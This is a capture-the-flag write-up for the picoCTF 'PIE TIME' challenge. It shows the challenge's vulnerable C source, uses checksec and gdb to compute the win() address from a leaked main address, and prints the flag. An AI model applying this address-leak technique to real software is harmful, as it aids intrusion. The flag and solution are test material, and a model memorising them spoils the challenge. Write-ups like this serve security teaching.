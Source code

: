 ---
tags: [binary-exploitation]
---
# PIE TIME

- **Description:** Can you try to get the flag? Beware we have PIE!
- **Difficulty:** Easy

---

## 🔎 Solution
This challenge revolves around **PIE (Position Independent Executable)** in Linux binaries, 
where the executable can be loaded at any random location in memory rather than at a fixed address.

Using the `checksec` tool on the provided binary, we confirm that PIE is enabled.
```
tndt@tndt:~/Desktop$ checksec --file=./vuln
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   78) Symbols	  No	0		1		./vuln
```
Reviewing the provided source code, we notice that the program first prints the address of the `main` function. 
It then prompts the user to input an address to jump to. 
Interestingly, there is a `win()` function in the code that prints the flag, but it is never called during normal execution. 
Our goal is to determine the address of this `win()` function so we can jump to it.
```c
int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```
Using `gdb`, we calculate the offset between `main` and `win`, which turns out to be **0x96**.
```
(gdb) p/x &main - &win
$1 = 0x96
```
Next, we connect to the remote server to retrieve the actual runtime address of the `main` function
```
Address of main: 0x5d65f516b33d
```
From there, we simply subtract the known offset (0x96) to compute the address of `win()`.
```
(gdb) p/x 0x5d65f516b33d - 0x96
$1 = 0x5d65f516b2a7
```
Finally, we input this computed address when prompted - and successfully capture the flag.
```
Enter the address to jump to, ex => 0x12345: 0x5d65f516b2a7
Your input: 5d65f516b2a7
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_3d38fb4b}
```
## 🚩Flag
> `picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_3d38fb4b}`
